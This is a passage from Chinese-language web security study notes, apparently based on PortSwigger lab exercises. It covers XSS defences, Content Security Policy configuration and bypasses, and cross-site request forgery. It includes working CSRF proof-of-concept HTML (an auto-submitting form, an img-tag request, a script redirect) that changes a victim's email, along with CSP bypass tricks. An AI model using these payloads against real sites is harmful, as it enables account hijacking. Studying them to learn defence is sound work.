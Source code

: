 3. 新思路：修改的参数可能不会在页面显示，但是故意使参数类型报错，这个报错信息可能会显示到页面上，进而触发
4. innerHTML注入的scrip标签并不会解释执行，这是由于浏览器的安全策略所导致的，会将其当成静态内容，但是通过```<img>```标签可以绕过这一限制



**防范方法**

1. 输入检查 
2. 输出编码，对输出的内容的所在的上下文（HTML，URL，JS，CSS）的对应的特殊字符采用相应的方式特殊编码，然后由交由框架自动再解码。  例如 html:>&gt    js:>\u003e
3. CSP内容安全策略
4. 使用DOM invader插件检查DOM XSS注入



####  CSP 内容安全策略

Content Security Policy是为了限制XSS，点击劫持等漏洞而设计的，它对js，css等资源做出了限制，

如script-src 'self', 以此减少恶意脚本的执行的可能。其中default-src是通用的源策略，img-src如果存在，则按im g-src所提供的源策略进行限制，

方式：none不允许任何链接       ‘self’只允许同源的链接     直接上url白名单

1. 直接设置域名白名单 （常见）
2. 给标签打上随机数标签，拥有该标签的script可执行 
3. 让网页的所有script脚本（或是可能注入点）拼接，计算hash值，浏览器执行时，会自动检查是否script被更改

CSP还可以设置iframe使用规则，不同于X-Frame-Options的只检查父级界面，CSP的是递归检查

```http
frame-ancestors 'self'
frame-ancestors 'none'
frame-ancestors 'self' https://normal-website.com https://*.robust-website.com
```

绕过方法：

1. Dangling markup （实际上是利用窗口的跨域读csrf的token，依赖于a标签，还有base 标签的target属性，其用于设置窗口名字）
2. 请求头中可以更改csp内容的字段，添加;结束当前CSP该字段内容，然后添加```script-src-elem 'unsafe-inline'``` 即可注入XSS
3. 具体的绕过方式，得看CSP策略，可以参考这个 [CSP常见配置以及绕过方法](https://www.freebuf.com/articles/web/260535.html)

### CSRF 跨站请求伪造

>定义：伪造别人向服务器请求服务
>例子：

```html
POST
<form method="POST/GET" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="anything%40web-security-academy.net">
</form>
<script>
        document.forms[0].submit();
</script>

GET
<img src="https://vulnerable-website.com/email/change?email=pwned@evil-user.net">   GET 方式
<script> 
document.location="https://0a1400a004294725c2a28536007300bd.web-security-academy.net/my-account/change-email?email=123@qq.com&_method=POST"  
</script>  浏览器解释为GET方式，服务器的某些web框架解释为POST方式

```
